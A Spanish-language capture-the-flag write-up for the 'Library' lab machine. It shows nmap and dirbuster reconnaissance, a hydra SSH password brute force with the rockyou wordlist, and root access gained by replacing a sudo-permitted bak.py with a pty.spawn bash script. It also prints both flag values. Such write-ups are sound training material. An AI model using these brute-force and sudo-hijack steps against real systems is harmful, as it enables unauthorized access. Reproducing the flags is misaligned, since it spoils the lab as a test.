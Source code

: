 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170508.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221171240.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221171339.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221171459.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221171938.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221172044.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221172143.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221170150.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221170150.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221170150.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221170150.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221170150.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












